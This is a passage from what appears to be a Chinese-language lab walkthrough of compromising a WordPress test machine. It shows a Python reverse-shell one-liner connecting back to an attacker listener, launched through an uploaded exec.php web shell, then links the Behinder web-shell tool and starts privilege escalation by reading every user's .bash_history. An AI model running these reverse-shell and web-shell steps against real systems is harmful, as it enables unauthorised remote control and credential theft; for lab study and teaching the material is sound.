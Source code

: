 [![](assets/1699929525-f462a44d0d7692317300c446f5661396.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112140506-6d61ed2e-8121-1.png)

kali 监听，在 cmd 参数输入 python 反弹 shell

```plain
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.179.141",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

访问：[https://192.168.179.149:12380/blogblog/wp-content/uploads/exec.php?cmd=python](https://192.168.179.149:12380/blogblog/wp-content/uploads/exec.php?cmd=python) -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("192.168.179.141",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'

[![](assets/1699929525-18f29a1e4a672f2812b3975157685634.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112140524-77f2f8be-8121-1.png)

获得 shell

### 文件上传冰蝎获取 shell

这里也可以使用冰蝎来获取 shell  
冰蝎下载地址：[Release Behinder\_v3.0\_Beta\_11: Update README.md · rebeyond/Behinder · GitHub](https://github.com/rebeyond/Behinder/releases/tag/Behinder_v3.0_Beta_11)

## 权限提升

### sudo 提权

查看各个用户的历史命令获取更多信息， .bash\_history 命令操作日志

```plain
cat /home/*/.bash_history | grep -v exit
```
